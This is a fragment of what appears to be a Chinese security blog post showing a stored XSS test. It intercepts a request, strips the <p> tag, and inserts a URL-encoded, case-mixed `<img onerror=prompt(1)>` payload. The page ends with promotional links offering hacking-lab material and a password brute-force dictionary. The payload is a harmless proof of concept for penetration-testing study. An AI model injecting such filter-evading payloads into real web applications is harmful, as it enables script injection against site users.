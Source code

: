 抓包并将 <p> 标签以及原本的文本删除：

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkZdSSLwJs33sfTb7H8eJQeZS7fia7pUvFUE5HVz8sHsVUvy5hzlHdjeA/640?wx_fmt=png)

插入 payload：

```
%3Cp%3E1111111"><ImG sRc=1 OnErRoR=prompt(1)>%3Cbr%2F%3E%3C%2Fp%3E
```

‍

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkQubYjX6o3sBDR3m1iamBB008dqicXAgvGgOL8dBZohiaHMmzBCZtGEibIw/640?wx_fmt=png)

关注公众号回复 “9527” 可免费获取一套 HTB 靶场文档和视频，“1120” 安全参考等安全杂志 PDF 电子版，“1208” 个人常用高效爆破字典，“0221”2020 年酒仙桥文章打包，还在等什么？赶紧点击下方名片关注学习吧！

公众号

* * *

**推 荐 阅 读**

  

  

  

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcAcRDPBsTMEQ0pGhzmYrBp7pvhtHnb0sJiaBzhHIILwpLtxYnPjqKmibA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247487086&idx=1&sn=37fa19dd8ddad930c0d60c84e63f7892&chksm=cfa6aa7df8d1236bb49410e03a1678d69d43014893a597a6690a9a97af6eb06c93e860aa6836&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcIJDWu9lMmvjKulJ1TxiavKVzyum8jfLVjSYI21rq57uueQafg0LSTCA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf8eyzKWPF5pVok5vsp74xolhlyLt6UPab7jQddW6ywSs7ibSeMAiae8TXWjHyej0rmzO5iaZCYicSgxg/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

**欢 迎 私 下 骚 扰**

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XOPdGZ2MYOdSMdwH23ehXbQrbUlOvt6Y0G8fqI9wh7f3J29AHLwmxjIicpxcjiaF2icmzsFu0QYcteUg93sgeWGpA/640?wx_fmt=jpeg)